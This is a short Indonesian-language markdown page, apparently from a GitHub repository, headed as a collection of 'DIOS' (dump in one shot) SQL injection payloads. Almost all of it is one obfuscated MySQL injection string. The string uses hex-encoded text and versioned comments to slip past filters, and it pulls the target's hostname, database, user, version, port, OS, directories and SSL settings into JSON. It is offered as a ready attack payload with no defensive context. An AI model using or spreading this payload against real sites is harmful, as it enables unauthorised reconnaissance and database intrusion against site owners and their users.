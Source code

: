 # Kumpulan DIOS SQLi


## SQLi information gathering - JSON

dios ini akan mengekstrak informasi target dan mengembalikan hasil dengan format JSON

```
/*!00000concat*/(0x3c73716c696e6a656374696f6e3e,0x7b,0x22686f73746e616d65223a22,/*!00000@@hostname*/,0x222c,0x226461746162617365223a22,/*!00000database()*/,0x22,0x2c2275736572223a22,/*!00000user()*/,0x22,0x2c,0x2276657273696f6e223a22,/*!00000@@version*/,0x222c,0x22706f7274223a22,/*!00000@@PORT*/,0x222c,0x226f73223a22,/*!00000@@version_compile_os*/,0x222c,0x22617263686974656374757265223a22,/*!00000@@VERSION_COMPILE_MACHINE*/,0x222c,0x2262617365646972223a22,/*!00000@@BASEDIR*/,0x222c,0x2264617461646972223a22,/*!00000@@datadir*/,0x222c,0x2273736c223a22,/*!00000@@GLOBAL.have_ssl*/,0x222c,0x226f70656e5f73736c223a22,/*!00000@@HAVE_OPENSSL*/,0x222c,0x2273796d6c696e6b223a22,/*!00000@@GLOBAL.have_symlink*/,0x222c22736f636b6574223a22,/*!00000@@SOCKET*/,0x22,0x7d,0x3c2f73716c696e6a656374696f6e3e)
```
